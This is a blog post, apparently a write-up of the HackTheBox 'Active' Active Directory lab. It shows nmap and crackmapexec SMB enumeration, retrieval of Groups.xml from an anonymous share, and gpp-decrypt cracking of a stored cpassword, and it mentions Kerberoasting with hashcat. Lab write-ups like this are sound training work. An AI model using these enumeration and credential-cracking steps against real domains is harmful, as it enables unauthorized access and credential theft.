 ```yaml
---
layout: post
title: HackTheBox Active
subtitle: Acitive Directory 101 Active Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Active/8055314e6eefbca8ad4a0d558519c82c_MD5.jpeg)
crackmapexec enum 검색
smbclient 접속 -> get filename (정책포함 총2개)
passwordcrack (GPP)
해당 계정으로 smb 접근후 플래그 취득
커버로스팅 시도
어드민비번 13100 해쉬캣
smb 

## Target - 10.129.157.36
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.157.36 -oN Active_allport
```
![](/assets/images/posts/2025-03-04-Active/dfa394a533f243c0477ade6179f61f1a_MD5.jpeg)
### SMB Enum
```bash
# 비로그인으로 공유 폴더 권한 보기
crackmapexec smb 10.129.157.36 -u '' -p '' --shares

# Replication 재귀로 다 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider Replication --regex .

smbclient //10.129.157.36/Replication
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
get Groups.xml
```

![](assets/images/posts/2025-03-04-Active/524e9fb03a7a4ff6798850d2e3a43c27_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/c3a8ad49223654f2cc332332957dfad1_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/504f36a387817853d0ccbd67b19e9963_MD5.jpeg)

### Password Crack [Group Policy Preferences]
> What's GPP : 그룹 정책을 통해 도메인에 연결된 머신을 구성할 수 있으며 각 머신들은 DC에 주기적으로 연결(로그인)하여 정책을 동기화 한다. 로컬 관리자 계정에 대한 암호를 설정하는 기능이 

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![](assets/images/posts/2025-03-04-Active/c211b63404c6e1dd891c7d23ee15387c_MD5.jpeg)


## End
![](/assets/images/posts/2025-03-04-Active/de95368feb71382f1c35a682dc077a0b_MD5.jpeg)